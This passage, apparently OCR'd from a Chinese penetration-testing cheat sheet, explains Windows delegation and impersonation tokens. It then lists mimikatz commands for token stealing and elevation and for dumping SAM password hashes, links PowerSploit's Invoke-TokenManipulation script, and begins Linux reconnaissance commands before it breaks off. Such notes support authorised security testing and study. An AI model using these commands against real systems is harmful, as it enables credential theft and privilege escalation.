 ### Windows访问令牌

系统使用令牌来控制用户可访问的对象，并控制用户执行相关系统操作。

```
#两种token
·Delegation token（授权令牌]：用于交互会话登录（例如本地用户直接登录、远程
桌面登录）
·Impersonation token（模拟令牌]：用于非交互登录（利用net use访问共享文件夹）
```

注：

两种token只在系统重启后清除

具有Delegation token的用户在注销后，该Token将变成Impersonation token，依旧有效

#### 令牌窃取

##### mimikatz

```powershell
#管理员运行mimikatz
#获取debug权限
privilege::debug
#模仿system用户的令牌
token::elevate
#列出令牌
token::list
#获取sam数据库中的密码
lsadump::sam
#恢复令牌
token::revert
```



##### Invoke-TokenManipulation.ps1

 https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1

##### meterpreter中incognito

## Linux下信息收集

### 查看系统类型

```python
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release
cat /etc/redhat-release (红帽子)
```

### 内核版本
